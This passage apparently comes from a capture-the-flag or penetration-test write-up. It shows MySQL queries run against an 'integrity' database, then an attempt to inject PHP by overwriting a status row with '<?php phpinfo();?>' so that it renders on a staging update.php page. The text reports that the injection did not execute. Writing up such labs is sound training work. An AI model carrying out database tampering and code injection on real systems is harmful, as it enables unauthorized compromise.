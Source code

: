 ```
+--------------------+
4 rows in set (0.02 sec)
```

The `integrity` database contains a mapping of the token to filenames.

```
Database changed
MySQL [integrity]> show tables;
+---------------------+
| Tables_in_integrity |
+---------------------+
| media               |
| stats               |
+---------------------+
2 rows in set (0.02 sec)

MySQL [integrity]> select * from stats;
+------+----------------+
| id   | status         |
+------+----------------+
|    1 | no issues yet
 |
+------+----------------+
1 row in set (0.02 sec)

MySQL [integrity]> select * from media;
+-----+----------------+------------+
| sno | video          | token      |
+-----+----------------+------------+
|  18 | 78683241.avi   | 673109167  |
|  19 | 1619102457.avi | 2112073545 |
|  20 | 490922722.avi  | 72247503   |
|  21 | 1530970781.avi | 1923945228 |
|  22 | 2129471110.avi | 672162071  |
+-----+----------------+------------+
5 rows in set (0.02 sec)
```

The `no issues yet` message is displayed at the bottom of the staging site `update.php` page. I can change it and try to inject PHP code on the page:

```
MySQL [integrity]> delete from stats where id=1;
Query OK, 1 row affected (0.02 sec)

MySQL [integrity]> insert into stats (id, status) values (1, "<?php phpinfo();?>");
Query OK, 1 row affected (0.03 sec)
```

When I check the update page I don't see anything on the product status and my PHP code hasn't been executed. Looking at the HTML source code, I see that the PHP tag has been inserted into the code but no PHP code is executed.
